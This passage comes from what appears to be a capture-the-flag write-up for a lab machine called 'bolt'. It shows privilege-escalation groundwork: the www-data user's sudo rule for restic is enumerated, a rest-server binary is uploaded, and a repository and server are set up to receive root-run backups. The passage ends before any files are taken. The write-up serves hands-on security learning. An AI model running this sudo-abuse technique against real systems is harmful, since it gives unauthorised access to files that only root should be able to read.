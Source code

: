 ## www-data

Now that we are `www-data` we can check our previous assumptions regarding its
`sudo` rights.

  :::text
  $ sudo -l
  Matching Defaults entries for www-data on bolt:
      env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on bolt:
      (root) NOPASSWD: /usr/bin/restic backup -r rest*

We read carefully the `restic` [documentation](https://restic.readthedocs.io).
The most interesting pages are:
* [How to backup data](https://restic.readthedocs.io/en/stable/040_backup.html)
* [How to create a new repository](https://restic.readthedocs.io/en/stable/030_preparing_a_new_repo.html)
* [And more specificaly how to run a REST repository](https://restic.readthedocs.io/en/stable/030_preparing_a_new_repo.html#rest-server)
* [The github repository of the REST server](https://github.com/restic/rest-server)
* [How to restore a backup](https://restic.readthedocs.io/en/stable/050_restore.html)

From there we upload a complied GO binary of rest-server from the
[github project](https://github.com/restic/rest-server/releases)
to the box using the bolt SSH account.

We create a directory in `/tmp/`, upload our binary and create another
directory for our backups.

    :::text
    bolt@bolt:/tmp$ mkdir ioio2
    bolt@bolt:/tmp$ cd ioio2
    bolt@bolt:/tmp/ioio2$ ls
    rest-server-0.9.7-linux-amd64
    bolt@bolt:/tmp/ioio2$ chmod +x rest-server-0.9.7-linux-amd64
    bolt@bolt:/tmp/ioio2$ mkdir srv

We imitate the `restic` repository in our folder.

    :::text
    bolt@bolt:/tmp/ioio2$ restic init --repo ./srv/
    enter password for new repository:
    enter password again:
    created restic repository b421a8c9a1 at ./srv/

    Please note that knowledge of your password is required to access
    the repository. Losing your password means that your data is
    irrecoverably lost.

We run the server with the debug option.

    :::text
    bolt@bolt:/tmp/ioio2$ ./rest-server-0.9.7-linux-amd64 --path /tmp/ioio2/srv/  --debug
    rest-server 0.9.7 compiled with go1.10 on linux/amd64
    Data directory: /tmp/ioio2/srv/
    Authentication disabled
    Private repositories disabled
    Starting server on :8000
